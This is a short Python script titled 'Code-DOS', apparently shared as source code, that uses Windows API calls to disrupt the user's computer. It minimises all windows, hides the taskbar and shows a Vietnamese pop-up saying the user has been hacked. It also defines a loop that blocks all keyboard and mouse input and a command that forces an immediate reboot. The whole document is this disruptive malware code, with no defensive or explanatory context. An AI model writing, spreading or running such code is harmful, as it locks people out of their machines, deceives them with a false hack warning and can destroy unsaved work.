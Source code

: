 # Code-DOS
import ctypes
import threading
import time
import random
import os

user32 = ctypes.windll.user32
screen_width = user32.GetSystemMetrics(0)
screen_height = user32.GetSystemMetrics(1)

num_windows = 30
box_width, box_height = 300, 200  

def minimize_all_windows():
    HWND_BROADCAST = 0xFFFF
    WM_SYSCOMMAND = 0x0112
    SC_MINIMIZE = 0xF020
    user32.PostMessageW(HWND_BROADCAST, WM_SYSCOMMAND, SC_MINIMIZE, 0)

def hide_taskbar():
    SW_HIDE = 0  # 
    taskbar = user32.FindWindowW("Shell_TrayWnd", None)
    user32.ShowWindow(taskbar, SW_HIDE)

def show_warning():
    MessageBox = ctypes.windll.user32.MessageBoxW
    MessageBox(0, "Bạn đã bị hack!", "Cảnh báo!", 0x40 | 0x1000)

def disable_input():
    while True:
        ctypes.windll.user32.BlockInput(True)  
        time.sleep(0.1)

def force_restart():
    os.system("shutdown /r /f /t 0")  

minimize_all_windows()
time.sleep(1)  
